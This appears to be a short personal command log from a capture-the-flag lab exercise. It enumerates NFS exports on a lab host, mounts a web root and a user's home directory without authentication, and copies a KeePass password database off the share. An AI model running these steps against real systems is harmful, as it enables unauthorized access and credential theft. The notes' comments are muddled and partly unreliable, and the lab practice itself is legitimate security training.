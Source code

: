 # Squashed CMD-by-CMDs

## FAILS - Learn Rescan this box!
## FAILS - DO not READ WRITEUP

```bash
sed -i 's///g' *-CMD-by-CMDs.md
```

```bash
showmount -e 10.10.11.191
# We do not need flags for -o because reasons?
# If we provided flags it will the owner will be 2017 and ww-data and su to www-data wont work.
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/web -nolock
# Does not require authenication even though it is ver4
sudo mount -t nfs -o rw,vers=4 10.10.11.191:/home/ross /mnt/ -nolock
cp /mnt/Documents/Passwords.kdbx .




```



